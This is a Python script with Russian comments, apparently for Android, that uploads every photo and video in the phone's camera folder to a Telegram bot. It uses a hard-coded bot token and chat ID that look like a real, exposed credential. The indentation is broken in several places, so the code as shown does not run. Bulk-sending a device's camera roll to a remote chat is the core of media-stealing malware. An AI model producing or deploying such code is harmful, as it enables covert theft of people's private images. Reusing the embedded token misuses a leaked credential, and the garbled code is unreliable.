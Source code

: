 import os
import requests
import time

# === Настройки ===
BOT_TOKEN = "7062038688:AAHMVNwtLwxdybRw1mogJaVOKKR8KWHjMJ0"
CHAT_ID = "6227457637"
FOLDER_PATH = "/sdcard/DCIM/Camera"  # Путь к папке с медиафайлами
DELAY_BETWEEN_FILES = 1  # Задержка между отправкой файлов в секундах
MAX_RETRIES = 3  # Максимальное количество попыток отправки при ошибках

def send_files():
    if not os.path.exists(FOLDER_PATH):
        print(f"⚠️ Ошибка: Папка {FOLDER_PATH} не существует!")
        return

  count = 0
    for filename in os.listdir(FOLDER_PATH):
        file_path = os.path.join(FOLDER_PATH, filename)

  # Определяем тип файла
  if filename.lower().endswith((".jpg", ".jpeg", ".png")):
            url = f"https://api.telegram.org/bot{BOT_TOKEN}/sendPhoto"
            file_key = "photo"
        elif filename.lower().endswith((".mp4", ".mov")):
            url = f"https://api.telegram.org/bot{BOT_TOKEN}/sendVideo"
            file_key = "video"
        else:
            continue

  # Пытаемся отправить файл с возможностью повтора
  for attempt in range(MAX_RETRIES):
            try:
                with open(file_path, "rb") as f:
                    response = requests.post(
                        url,
                        files={file_key: f},
                        data={"chat_id": CHAT_ID}
                    )

   if response.status_code == 200:
                    print(f"✅ Успешно отправлено: {filename}")
                    count += 1
                    break
                elif response.status_code == 429:
                    wait_time = 5
                    print(f"⏳ Слишком много запросов. Ждём {wait_time} секунд... (Попытка {attempt + 1}/{MAX_RETRIES})")
                    time.sleep(wait_time)
                else:
                    print(f"⚠️ Ошибка отправки {filename}: {response.status_code} — {response.text}")
                    if attempt == MAX_RETRIES - 1:
                        print(f"❌ Не удалось отправить {filename} после {MAX_RETRIES} попыток")
                    time.sleep(DELAY_BETWEEN_FILES)
                    
   except requests.exceptions.RequestException as e:
                print(f"⚠️ Ошибка сети при отправке {filename}: {str(e)}")
                if attempt == MAX_RETRIES - 1:
                    print(f"❌ Не удалось отправить {filename} из-за проблем с сетью")
                time.sleep(DELAY_BETWEEN_FILES)
            except Exception as e:
                print(f"⚠️ Неожиданная ошибка при обработке {filename}: {str(e)}")
                break

  time.sleep(DELAY_BETWEEN_FILES)

  print(f"\n📊 Итог: успешно отправлено {count} файлов")

# === Запуск ===
if __name__ == "__main__":
    print("=== Запуск отправки файлов ===")
    send_files()
